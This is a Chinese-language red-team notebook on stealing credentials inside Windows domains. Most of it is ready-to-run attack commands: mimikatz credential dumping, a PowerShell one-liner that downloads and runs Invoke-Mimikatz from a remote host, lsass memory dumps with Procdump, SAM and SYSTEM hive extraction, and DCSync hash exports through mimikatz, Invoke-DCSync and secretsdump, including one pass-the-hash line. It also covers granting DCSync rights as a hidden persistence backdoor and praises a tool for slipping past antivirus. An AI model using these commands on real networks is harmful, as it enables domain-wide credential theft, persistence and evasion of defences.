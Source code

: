 不错的文章，内网密码解密大全<br />[https://mp.weixin.qq.com/s/JVI3wpl6hQ4Y63GbNuMRjA](https://mp.weixin.qq.com/s/JVI3wpl6hQ4Y63GbNuMRjA)

[https://blog.csdn.net/CCESARE/article/details/104746596](https://blog.csdn.net/CCESARE/article/details/104746596) navicat解密
<a name="TL9Zp"></a>
## 浏览器密码抓取
\BrowserGhost.exe<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614147236867-befdcd45-854c-4005-8a52-d6f3cb3e1532.png#height=443&id=nSfiM&originHeight=590&originWidth=1194&originalType=binary&ratio=1&rotation=0&showTitle=false&size=52167&status=done&style=none&title=&width=896)<br />hack-browser-data.exe直接运行，在results文件夹下会有所有csv文件<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614147976279-e74e2672-c499-4f8f-b46f-ed423e7d51e9.png#height=149&id=SJKbp&originHeight=199&originWidth=1017&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9628&status=done&style=none&title=&width=763)

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614148011665-dc592848-951d-444f-9aa6-0ff50034e898.png#height=271&id=zrJU7&originHeight=362&originWidth=739&originalType=binary&ratio=1&rotation=0&showTitle=false&size=28333&status=done&style=none&title=&width=554)

<a name="zwbZD"></a>
## Mimikatz
关于mimikatz，为什么有时候在域普通成员抓密码抓不到本地管理员密码？是因为该域普通成员不具备本地管理员的权限。如果域普通成员在本地管理员权限组，那么域普通成员就可以抓取本地管理员密码了。
<a name="GdDtM"></a>
### 本地抓密码
mimikatz.exe privilege::debug "sekurlsa::logonPasswords exit"  >1.txt

mimikatz # privilege::debug  （赋予管理员权限）<br />mimikatz # sekurlsa::logonpasswords<br />如果爆出以下错误可以用离线抓取的方法<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388850526-54aa9739-daa4-4ba4-ab85-b42835a5a79a.png#height=50&id=ufRUK&originHeight=50&originWidth=379&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=379)

<a name="HDrxS"></a>
### powershell抓取

内网目标服务器无法通外网，可以找一台内网互通的服务器开启http服务，放置Invoke-Mimikatz.ps1  抓取密码。
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.26.32.106:8000/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626665426330-bdab741b-6874-4edf-a70a-ef6292d760c4.png#height=353&id=nRgwG&originHeight=706&originWidth=1612&originalType=binary&ratio=1&rotation=0&showTitle=false&size=601025&status=done&style=none&title=&width=806)

<a name="Sff5Z"></a>
### 导出域内所有hash
mimikatz # privilege::debug<br />Privilege '20' OK<br /> <br />mimikatz # lsadump::dcsync /domain:highsun.com /all /csv<br />mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.local /all /csv exit"  >1.txt<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388850876-d8bf2efb-7eb5-4241-84cd-3ac8583271e7.png#height=561&id=Ghv0J&originHeight=748&originWidth=828&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=621)<br /> <br />[https://xz.aliyun.com/t/2527](https://xz.aliyun.com/t/2527)<br /> 
<a name="MVHl8"></a>
## Procdump
（最好在win7虚拟机操作） win10很多问题<br />使用Procdump工具把lsass.exe进程抓取成lsass.dmp文件`

`<br />Procdump.exe -accepteula -ma lsass.exe lsass.dmp （默认交互）<br />然后本地用mimikatz<br />sekurlsa::minidump c:\users\test\appdata\local\temp\lsass.dmp<br />sekurlsa::logonpasswords<br /> 
<a name="cxK7H"></a>
## 通过sam和system文件抓取密码
Reg save hklm\sam （路径）sam.hive   （其实有sam文件就能抓，但是只能抓NTLM hash<br />Reg save hklm\system system.hive<br />导出来后放到和mimikatz同一个文件夹<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388851092-f4b0f8a2-8ec2-46d5-a44d-f80ab857e202.png#height=268&id=GEghs&originHeight=357&originWidth=815&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=611)<br /> <br /> <br />reg save HKLM\SYSTEM system.hiv<br />reg save HKLM\SAM sam.hiv<br />reg save HKLM\SECURITY sercrity.hiv<br />mimikatz.exe "lsadump::sam /system:system.hiv /sam:sam.hiv /sercrity:sercrity.hiv" exit
<a name="FQrF6"></a>
## 批量hash爆破
Invoke-TheHash.ps1<br /> <br />[https://blog.csdn.net/lhh134/article/details/104150949](https://blog.csdn.net/lhh134/article/details/104150949)

<a name="He0pq"></a>
## 导出域内所有hash
[https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1#L8270](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1#L8270)
<a name="kxcFj"></a>
### dcsync
这个dcsync，默认是以下四大用户才会具备权限，只要拥有dcsync权限的用户，就能离线导出域内所有hash的权利。如果是域管，也可以赋予某个域内普通用户具备这个dcsync权限，从而实现后门的权限维持。
> · Administrators组内的用户。
> · Domain Admins组内的用户。
> · Enterprise Admins组内的用户。
> · 域控制器的计算机帐户


powerview.ps1中执行如下命令，该用户就具备dcsync权限。就能直接导出域内所有hash<br /> #给域用户hack添加DCSync权限，需要域管身份登陆RDP，才能赋予权限。<br />Add-DomainObjectAcl -TargetIdentity "DC=aufeng,DC=com" -PrincipalIdentity aufeng111 -Rights DCSync -Verbose<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616129819981-3e23fa64-9cb2-4e81-a9e3-eade5878865e.png#height=456&id=K9QZ8&originHeight=608&originWidth=653&originalType=binary&ratio=1&rotation=0&showTitle=false&size=57231&status=done&style=none&title=&width=490)<br />**但是如果以域普通成员抓取mimikatz的话，是需要管理员权限的，所以域普通成员需要加入本地管理员组才行。**<br />**所以以域管身份登陆后，还得把域成员添加至本地管理员组。**<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616131381908-0414d2aa-3ced-4207-8bd3-02f7bd131758.png#height=522&id=XE172&originHeight=696&originWidth=934&originalType=binary&ratio=1&rotation=0&showTitle=false&size=90724&status=done&style=none&title=&width=701)<br />如果只是域普通用户，但是只是调用CMD框的时候用了域管登陆，也是没办法赋予权限的。需要以域管身份登陆了才可以。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616130166978-955e0bd2-71d7-4435-9ff2-0dc7f510f885.png#height=324&id=k2lkP&originHeight=432&originWidth=654&originalType=binary&ratio=1&rotation=0&showTitle=false&size=45701&status=done&style=none&title=&width=491)<br />这个时候，在aufeng111的域普通账号上，就可以用Invoke-DCSync.ps1导出域内所有hash<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616133897136-a0257c48-2c0c-4bcb-bdfe-e3a09a5ea5b0.png#height=214&id=mQYXe&originHeight=286&originWidth=651&originalType=binary&ratio=1&rotation=0&showTitle=false&size=18584&status=done&style=none&title=&width=488)<br /> <br />#域管给域用户hack删除DCSync权限<br />Remove-DomainObjectAcl -TargetIdentity "DC=aufeng,DC=com" -PrincipalIdentity aufeng111 -Rights DCSync -Verbose<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616133685426-2ba0402a-b9c2-49b1-a072-6208a5b825bf.png#height=444&id=K3pdq&originHeight=591&originWidth=630&originalType=binary&ratio=1&rotation=0&showTitle=false&size=53296&status=done&style=none&title=&width=473)<br />这个时候密码就抓不出来了<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616134170299-342d3d94-6977-472c-85ae-e5e720e9758f.png#height=426&id=WYYrI&originHeight=568&originWidth=662&originalType=binary&ratio=1&rotation=0&showTitle=false&size=20203&status=done&style=none&title=&width=497)

python3 secretsdump.py aufeng/aufeng111@10.0.0.100 -dc-ip 10.0.0.100 -just-dc-user administrator
<a name="Uj9IX"></a>
### Mimikatz的dcsync功能
**导出指定用户hash**<br />privilege::debug<br /> <br />#导出指定用户的信息(包括哈希)<br />lsadump::dcsync /domain:aufeng /user:administrator      <br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616059396375-b751b75d-2bd7-472c-ae3e-9c75115c95b2.png#height=458&id=DHD73&originHeight=610&originWidth=742&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69838&status=done&style=none&title=&width=557)<br />**导出域内所有hash**<br />利用Mimikatz的dcsync功能获取提取Ntds.dit中的哈希的操作如下：<br />1. 在域内任意一台主机上以域管理员权限运行mimikatz并执行如下命令：<br />privilege::debug<br />lsadump::dcsync /domain:god.org /all /csv<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616053259404-893390f3-68b3-4a42-add4-713936d2e51a.png#height=182&id=j3Z47&originHeight=242&originWidth=802&originalType=binary&ratio=1&rotation=0&showTitle=false&size=27359&status=done&style=none&title=&width=602)

<a name="YHFWy"></a>
### Invoke-DCSync.ps1脚本
Import-Module .\Invoke-DCSync.ps1

在当前域中，使用域管权限调出cmd，导出当前域内所有hash<br />Invoke-DCSync -DumpForest | ft -wrap -autosize    // 导出域内所有用户的hash<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616054380811-1f544658-37c6-45eb-aaca-43028b932704.png#height=200&id=cMDnl&originHeight=266&originWidth=830&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23071&status=done&style=none&title=&width=623)<br />Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize      // 导出域内administrator账户的hash   导出域内指定用户的hash<br />但是会有很多报错。但是还会导出来指定的hash<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616054674033-1d42c856-02e2-4304-96cc-3d1c3058b45f.png#height=344&id=Vdyz9&originHeight=459&originWidth=663&originalType=binary&ratio=1&rotation=0&showTitle=false&size=36702&status=done&style=none&title=&width=497)
<a name="fRGpi"></a>
### secretsdump
明文<br />./secretsdump.py aufeng/af:password@192.168.10.131 -dc-ip 192.168.10.131 -just-dc-user administrator

hash<br />proxychains python3 secretsdump.py WANGDI/wdadmin@192.168.233.10 -hashes :b5674dc1274c9bfb792c10137b92d8ef -dc-ip 192.168.233.10
<a name="2LXJe"></a>
## netpass 永远的神
有时候mimikatz无法抓取密码，但是netpass是永远的神。而且还能过火绒！免杀<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615726865601-9e92426d-2d48-4a61-803f-8e8416b21b05.png#height=450&id=RufL2&originHeight=600&originWidth=1244&originalType=binary&ratio=1&rotation=0&showTitle=false&size=249985&status=done&style=none&title=&width=933)

<a name="q5dYL"></a>
## nirsoft工具
整个压缩包拖进去解压出来用，但是大小25个m<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1654658231117-18f33936-3e00-48c4-b730-a27b4c87c1e2.png#clientId=u12166b47-0279-4&errorMessage=unknown%20error&from=paste&height=560&id=u10b1e0d4&originHeight=700&originWidth=1085&originalType=binary&ratio=1&rotation=0&showTitle=false&size=288897&status=error&style=none&taskId=u5e61f24f-3899-465c-be14-88288ecdcaa&title=&width=868)

<a name="H7VzO"></a>
## 获取foxmail密码
取出大概这个路径的文件<br /> D:\Foxmail 7.0\Storage\xxxx\Accounts\Account.rec0  <br />![878ccbe6-504d-423e-8b75-92e4fed59b10.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1653891645017-7239b37f-5059-4aff-89cd-22aed9cee6bb.png#clientId=u63556a2c-1cd4-4&errorMessage=unknown%20error&from=paste&height=205&id=ud0300729&originHeight=256&originWidth=2786&originalType=binary&ratio=1&rotation=0&showTitle=false&size=56640&status=error&style=none&taskId=u71681450-6b95-483c-9af2-b469c80b7dd&title=&width=2228.8)
